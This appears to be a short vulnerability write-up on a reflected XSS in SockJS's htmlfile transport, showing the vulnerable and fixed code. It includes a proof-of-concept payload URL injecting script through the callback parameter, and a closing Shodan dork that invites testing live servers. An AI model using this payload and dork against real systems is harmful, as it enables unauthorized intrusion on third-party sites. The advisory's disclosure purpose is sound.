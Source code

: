 ## Reflected-XSS-on-SockJS

# Summary:

There is a **Reflected XSS** in SockJS on versions before of 3.0.

# Vulnerable file:

The old versions problem is that the vulnerable file, *https://github.com/sockjs/sockjs-node/blob/master/lib/transport/htmlfile.js* and its function *htmlfile* is not checking the non-alphanumeric symbols:

```
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}
```

New versions check this, fixing the XSS :
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  if (/[^a-zA-Z0-9-_.]/.test(callback)) {
    return next({
      status: 500,
      message: 'invalid "callback" parameter'
    });
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}


# Payload:

Payload to execute a RXSS is the next one:


https://<vulnerablehost>/<vulnerable_dir>/000/<some_UUID>/htmlfile?c=alert(%27SOCKJS%27)//
  
For example:

https://<vulnerablehost>/<vulnerable_dir>/000/0d1d5bc5-d326-4690-9e25-e08ef24a7e3a/htmlfile?c=alert(%27SOCKJS%27)//
 
 
# Fix

New versions of this library are fixed.

# Bonus: Shodan recon
If you use the following dork: **html:"Welcome to SockJS!"** you will find some vulnerable servers. Just try 
